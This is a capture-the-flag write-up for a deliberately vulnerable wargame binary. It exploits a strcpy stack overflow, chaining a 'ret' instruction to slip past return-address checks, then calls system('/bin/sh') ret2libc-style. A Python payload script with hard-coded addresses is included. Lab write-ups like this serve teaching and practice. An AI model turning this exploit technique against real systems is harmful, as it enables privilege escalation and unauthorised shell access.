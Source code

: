 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check buffer boundary.

I can overwrite SFP & RET address and this program's protection code is:
```
if(argv[1][47] == '\xbf')
{
  printf("stack retbayed you!\n");
  exit(0);
}

if(argv[1][47] == '\x40')
{
  printf("library retbayed you, too!!\n");
  exit(0);
}
```

# Exploitation

This code makes me unable to use system or execve's address anymore.

But I can use RET address on:
```
0x804851d <main+173>:	leave  
0x804851e <main+174>:	ret    
0x804851f <main+175>:	nop
```
If I give ret(0x804851e) on RET address, ESP goes up 4 bytes and 4 bytes after ret(0x804851e) will be new EIP.

by that method, I can bypass address checking and able to use system's address one more time.
```
--------------------------------------------------------------------------------------------
| buffer[44] | ret(0x804851e) | system's address | system's exit(AAAA) | /bin/sh's address |
--------------------------------------------------------------------------------------------
```
# Payload
```python
import os

payload = ""
payload = payload + "A"*44
payload = payload + "\x1e\x85\x04\x08" # ret's address
payload = payload + "\xe0\x8a\x05\x40" # system's address
payload = payload + "AAAA" # system's exit(AAAA)
payload = payload + "\xf9\xbf\x0f\x40" # /bin/sh's address

os.execv("/home/giant/assassin", ["", payload])
```
